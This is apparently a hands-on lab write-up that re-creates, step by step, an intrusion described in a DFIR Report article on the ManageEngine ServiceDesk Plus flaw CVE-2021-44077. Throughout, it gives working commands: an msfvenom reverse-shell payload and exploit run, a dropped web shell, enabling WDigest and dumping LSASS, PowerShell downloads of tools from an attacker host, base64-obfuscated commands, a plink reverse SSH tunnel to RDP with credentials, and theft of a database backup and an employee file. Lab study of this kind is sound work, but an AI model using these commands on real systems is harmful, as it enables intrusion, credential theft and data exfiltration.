 
# Sketching an attack based on "[Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/)" Report

## 1. Hands On Action: Exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077)

a. Based on the [POC](https://github.com/horizon3ai/CVE-2021-44077) msiexec.exe is created through `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.134 LPORT=4444 -f exe > msiexec.exe
```

b. run your listener

```
nc -l 4444
```

c. run the exploit script

```
python3 exploit.py http://192.168.20.135:8080/ msiexec.exe
```

![CVE-Exploitation-Success](CVE-Exploitation-Success.png)

#### But this approach isn't the same as the [report](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/), as in the report the Threat Actor dropped a web shell JSP file `jm2.jsp` and then accessed it.

![image](https://github.com/user-attachments/assets/16c25295-6f5a-465d-96b4-da499027becb)

#### So, I wrote a simple Python script that, when executed a `wbsh.jsp` is written to `\custom\login` directory

![image](https://github.com/user-attachments/assets/a0525bc4-dc65-4c9b-9856-110ae5456b23)


#### then used `pyinstaller` to convert it to an executable exe file

![image](https://github.com/user-attachments/assets/cb7515a7-7eb1-49a0-b72d-5a3e834b0348)

#### now we have `msiexec.exe`, let's use the exploit again

![image](https://github.com/user-attachments/assets/8b473af9-46a4-4f89-9278-ff2b2c1b54b7)

#### It Worked !!

![wbsh](https://github.com/user-attachments/assets/4c83acaf-d287-4330-9b7c-34514170a965)

![image](https://github.com/user-attachments/assets/55a6b0e8-78cf-46d7-ae3f-91f68353e9b8)

#### `whoami` ?
> No Need for Privilege Escalation

![image](https://github.com/user-attachments/assets/78176ea2-9843-480b-984c-b65e5ce7de80)

<hr />

### 2. Next step we are enabling `WDigest` -> then dumping `LSASS`, -> then downloading it

a. Is WDigest Enabled?

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

![image](https://github.com/user-attachments/assets/b6029281-dae5-4253-a7c5-8d4365bcc295)


b. Let's Enable it

```
Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
```

![image](https://github.com/user-attachments/assets/ac6e01e2-ab72-4ba4-928b-4a2ead73f624)


c. Now we have clear plaintext passwords stored in `LSASS`
```
tasklist | findstr "lsass" 
```

![image](https://github.com/user-attachments/assets/58db05a4-2da0-4d51-8bdf-9671eb584c94)

d. Let's dump it
```
C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 668 C:\Windows\Temp\logctl.zip full
```

e. Download it

![image](https://github.com/user-attachments/assets/6994c404-8d93-42f3-ae33-89e6cc34c703)

f. after downloading the logctl.zip file, i'ts empty , which was weird and tried multiple ways and every time when i dump it, its empty so i had to use `procdump.exe`, i will be adding this to the lab for more fun

![image](https://github.com/user-attachments/assets/ab124bb5-bdf1-4a87-aaa8-0b53bb3d2869)

g. Download `procdump.exe`

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')
```

h. Use `procdump.exe`
```
C:\windows\temp\calc.exe -accepteula -ma 668 C:\Windows\Temp\logct2.dmp
```

![image](https://github.com/user-attachments/assets/78153249-ea74-4777-8430-05dc64c8c04a)

j. Download it

![image](https://github.com/user-attachments/assets/e3649426-ec9b-4fd8-a3e3-0a0ce7b1acd6)

<hr />

### 3. now we have the dump, we will skip the process of fetching the passwords for now, Lets Go to the next step where the attacker starts tunneling RDP connections over SSH

a. First, we will download `plink.exe` as `ekern.exe`
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

b. By default, RDP is Disabled. Let's check first
```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/2c8d0804-16c5-4961-9e13-6179a61d723d)

c. Enable RDP, but let's base64 encode this and put it in one-line command

```
Set-Service -Name TermService -StartupType Automatic
Start-Service -Name TermService
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0
```

d. Encoded:

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

e. Run the encoded command and let's checkout

```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/272a554b-5da5-4103-8ec0-18ee4424299e)


f. Download Bitvise SSH Server `192.168.1.2` and Configure credentials

```
username: H@ck3r
password: C@nt_D3f3nd_2021-44077
```

g. Let's write the FXS.bat file to run `ekern.exe` and establish a reverse SSH Connection to RDP

```
echo y|C:\Users\Temp\ekern.exe -ssh -P 443 -l H@ck3r -pw C@nt_D3f3nd_2021-44077 -R 127.0.0.1:49800:192.168.20.150:3389 192.168.1.2
```

h. Another base64? No need to download it

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCBIQGNrM3IgLXB3IENAbnRfRDNmM25kXzIwMjEtNDQwNzcgLVIgMTI3LjAuMC4xOjQ5ODAwOjE5Mi4xNjguMjAuMTQ1OjMzODkgMTkyLjE2OC4xLjInDQokYmF0Y2hGaWxlUGF0aCA9ICdDOlxVc2Vyc1xWaWN0aW1cRG9jdW1lbnRzXEZYUy5iYXQnDQpTZXQtQ29udGVudCAtUGF0aCAkYmF0Y2hGaWxlUGF0aCAtVmFsdWUgJGJhdGNoQ29udGVudA==')) | Invoke-Expression}"
```

![image](https://github.com/user-attachments/assets/4f85fa3e-6cb0-48be-bc14-597ab146778a)

j. Let's run our batch...

![image](https://github.com/user-attachments/assets/f149d6b7-6b3e-475f-b867-376a98ef18ba)

k. Now It's RDP time

![image](https://github.com/user-attachments/assets/0f083225-b204-4e26-ab6a-89b6193da53f)

![image](https://github.com/user-attachments/assets/2f3579f5-3be2-40be-bad0-cba283211a7d)

it WORKED !!
![image](https://github.com/user-attachments/assets/fbd3d1af-1541-41de-a2a3-23cb1f28a86c)

<hr />

### 4. Stealing Some Data
a. Download postgres DB backup of the ManageEngine ServiceDesk Plus application it's located at `C:\Program Files (x86)\ManageEngine\ServiceDesk\backup\backup_postgres_11303_fullbackup_07_19_2024_20_07\`

![image](https://github.com/user-attachments/assets/07a1e62a-f55e-49b8-ac4d-1dfe56e59476)

b. there is a file named `Employees.xls` located on the Desktop let's see it 

![image](https://github.com/user-attachments/assets/4bf04d98-3165-41a8-8dea-4dbd01abac1d)

<hr />

## Conclusion

We started exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077) then a wbsh.jsp file was dropped, and by using it we gained a web shell and after little enummuration we started to dump LSASS after enabling WDigest to allow passwords to be stored in plaintext format. 

Then we have downloaded ekern.exe which was a renamed version of [Plink](https://the.earth.li/~sgtatham/putty/0.58/htmldoc/Chapter7.html), and wrote a batch script `FXS.bat` to establish a reverse SSH connection to tunnel RDP connections over it. After that we stole some confedintial data like `backup_postgres_11303_fullbackup_07_19_2024_20_07_part_1.data` and `Employees.xls`.

> THIS WAS FUN !!

